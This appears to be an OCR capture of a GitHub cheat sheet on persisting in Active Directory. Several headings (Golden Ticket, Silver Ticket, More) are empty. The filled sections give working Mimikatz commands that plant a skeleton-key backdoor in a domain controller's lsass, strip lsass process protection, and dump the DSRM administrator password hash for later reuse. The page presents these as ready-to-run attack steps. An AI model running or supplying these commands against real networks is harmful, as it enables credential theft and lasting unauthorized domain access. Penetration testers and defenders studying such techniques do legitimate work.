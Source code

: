 ## Persistence on Active Directory 

### Golden Ticket



### Silver Ticket


### Skeleton Key
```powershell
# Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Now can access any host in the domain with any user with password `mimikatz`
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
```powershell
# If lsass is running proected, need to use mimikatz driver
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect process:lsass.exe /remove
mimikatz # misc ::skeleton
mimikatz # !

```
### DSRM (Directory Services Restore Mode)
- There is a local admin on every DC called `Administrator` whose passwd is the DSRM passwd

1.- Dump DSRM password (DA privileges required)
```powershell
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <hostname>
```

2.- Compare the Administrator hash with the Admin hash of this command
```powershell
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <hostname>
```
3.- First one is the DSRM local Admin

### MORE





